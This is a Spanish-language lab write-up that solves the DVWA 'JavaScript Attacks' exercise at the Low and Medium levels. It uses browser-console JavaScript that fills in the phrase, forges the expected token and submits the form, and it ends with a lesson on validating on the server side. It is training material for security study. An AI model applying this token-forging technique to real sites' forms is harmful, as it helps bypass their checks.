


# JavaScript Attacks - DVWA

## Nivel de seguridad: Low

En este nivel se nos pide enviar la palabra `success` a través de un formulario. Sin embargo, al inspeccionar el código fuente o utilizar la consola del navegador, descubrimos que también se envía un **token**.

Podemos observar directamente los valores correctos desde el navegador, utilizando la consola de desarrollador (DevTools).

### Comandos ejecutados:
```js
document.querySelector('[name=phrase]').value = 'success';
document.querySelector('[name=token]').value = '38581812b435834ebf84ebcc2c6424d6';
document.forms[0].submit();
```



Esto establece manualmente los valores requeridos para que el servidor acepte el envío y muestra el mensaje "**Well done!**".

---

## Nivel de seguridad: Medium

En este nivel, el valor del token **no es un hash**, sino una cadena construida según una lógica simple: 
> `token = "XX" + reverse(phrase) + "XX"`

### Comandos ejecutados:
```js
const phrase = 'success';
const token = [...("XX" + phrase + "XX")].reverse().join('');

// token === "XXsseccusXX"

document.querySelector('[name=phrase]').value = phrase;
document.querySelector('[name=token]').value = token;
document.forms[0].submit();
```



Este código en la consola permite calcular y aplicar el token correcto automáticamente, haciendo que el servidor valide la petición.

---

## Comentario final

Este ejercicio demuestra la importancia de **no confiar en la validación del lado del cliente**. Cualquier lógica implementada en JavaScript puede ser inspeccionada, replicada o manipulada directamente desde la consola del navegador. Para proteger una aplicación, **la validación debe implementarse siempre del lado del servidor**.